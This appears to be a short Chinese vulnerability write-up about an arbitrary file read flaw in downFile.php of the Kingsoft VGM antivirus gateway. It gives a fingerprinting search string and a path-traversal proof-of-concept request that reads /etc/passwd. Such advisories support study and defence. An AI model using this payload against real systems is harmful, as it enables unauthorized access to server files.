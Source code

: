 # 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>金山 VGM防毒墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"金山VGM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1649952941780-18a6aa75-45de-487e-bbf7-3fe231d7aec1.png)验证POC

```php
/downFile.php?filename=../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1649953010512-03ef2560-62c5-4e06-8dd9-01650487c045.png)